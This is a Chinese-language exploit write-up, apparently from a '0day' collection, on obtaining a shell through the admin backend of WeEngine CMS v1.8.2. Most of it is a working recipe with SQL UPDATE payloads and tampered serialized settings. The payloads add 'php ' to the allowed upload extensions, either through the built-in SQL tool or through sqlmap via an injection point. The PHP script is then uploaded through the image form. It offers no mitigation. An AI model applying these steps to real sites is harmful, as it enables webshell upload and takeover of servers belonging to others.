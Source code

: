 # 微擎 cms 后台 getshell

> 原文：[http://book.iwonder.run/0day/微擎/2.html](http://book.iwonder.run/0day/微擎/2.html)

## 一、漏洞简介

## 二、漏洞影响

v1.8.2（201812130002）

## 三、复现过程

站点-附件设置-支持文件后缀

![image](img/2408ecbed025b2afa9d4b6157e3d6c91.png)

在安装完成的时候,数据库里面并没有写入支持文件后缀的值,需要我们进行添加需要的脚本格式 php 等等

![image](img/1a9516ed4563f65d18ff75d7f89c3a38.png)

直接写上支持的后缀为 php 是会带入到数据库的,提交完毕以后数据库会显示可上传的值

```
a:3:{s:16:"attachment_limit";  
i:0;s:5:"image";a:5:{s:5:"thumb";i:0;s:5:  
"width";i:800;s:10:"extentions";  
a:4:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;s:3:"png";}  
s:5:"limit";i:5000;s:14:"zip_percentage";s:3:"100";}  
s:5:"audio";a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

### 漏洞利用

写入任意字符

![image](img/8a6ed02d73b7946f038313c397152b8e.png)

```
a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
s:3:"png";i:4;s:3:"aaa";}s:5:"limit";i:5000;
s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
a:2:{s:10:"extentions";  a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

站点-常用工具-数据库-执行 SQL 语句替换之前插入的值 (记得打开调试模式)

```
UPDATE ims_core_settings SET value = replace(value, 'aaa', 'php ') 
```

注意 php 后有一个空格

or 如果在渗透过程中有 SQL 注入点的情况下 有用户权限能够上传,尝试直接在 SQLMAP 执行语句

```
UPDATE `ims_core_settings` SET
`key` = 'upload',
`value` = 'a:2:{s:5:\"image\";a:4:{s:5:\"thumb\";i:0;  
s:5:\"width\";i:800;s:10:\"extentions\";  
a:5:{i:0;s:3:\"gif\";i:1;s:3:\"jpg\";i:2;  
s:4:\"jpeg\";i:3; s:3:\"png\";i:4;s:3:\"php \";}  
s:5:\"limit\";i:5000;}s:5:\"audio\";  
a:2:{s:10:\"extentions\";a:1:{i:0;s:3:\"mp3\";}s:5:\"limit\";i:5000;}}'
WHERE `key` = 'upload' AND `key` = 'upload' COLLATE utf8mb4_bin; 
```

![image](img/0f04e5867b2856214d2fdd763d74297a.png)

```
a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
s:3:"png";i:4;s:3:"php ";}s:5:"limit";i:5000;  
s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

执行完毕-系统-更新缓存

![image](img/548b0a01f0e887f26646b8bf31daf81d.png)

### 上传 php 文件

以上全部操作完毕,直接在可以上传图片的地方进行上传脚本

![image](img/fd8508d4a078fb06edca452ec644a0ac.png)

## 四、参考链接

> [https://www.vulnbug.com/Exploit/getshell-vulnerability-in-microcomputer-cms-background.html](https://www.vulnbug.com/Exploit/getshell-vulnerability-in-microcomputer-cms-background.html)

